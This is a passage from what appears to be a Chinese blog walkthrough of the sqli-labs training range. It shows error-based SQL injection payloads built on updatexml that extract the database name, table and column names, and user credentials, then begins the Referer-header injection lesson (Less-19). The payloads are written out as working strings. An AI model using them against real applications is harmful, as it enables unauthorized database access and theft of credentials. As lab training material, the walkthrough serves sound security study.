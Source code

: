 

<img src="https://i-blog.csdnimg.cn/blog_migrate/d27a8911eb8973b996da07ef47d99b3e.png" alt="" style="max-height:127px; box-sizing:content-box;" />


然后就可以开始爆破了

```vbnet
' or updatexml(1,concat(0x7e,database()),3),0,1)-- +
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/d031b26e389d960a3da754d5fdf7af87.png" alt="" style="max-height:113px; box-sizing:content-box;" />


```haskell
' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())),3),0,1)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ce15f9bc974e8e3de892b39e79cf7acf.png" alt="" style="max-height:119px; box-sizing:content-box;" />




```bash
' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users')),3),0,1)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3bf3f0d44dfcbe0039597680308a62fb.png" alt="" style="max-height:95px; box-sizing:content-box;" />


```vbnet
' or updatexml(1,concat(0x7e,(select concat(id,username,password)from security.users limit 0,1)),3),0,1)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0b22180e8e079dbe5290552344e45a94.png" alt="" style="max-height:105px; box-sizing:content-box;" />




这样就爆破完毕了

## Less-19  Referer

成功登入后



<img src="https://i-blog.csdnimg.cn/blog_migrate/bfffe59efd5c6f5fcc92d4a4b6655e4e.png" alt="" style="max-height:383px; box-sizing:content-box;" />


那这次是 Referer

```vbnet
Referer: ' or updatexml(1,0x7e,3),1)-- +
```
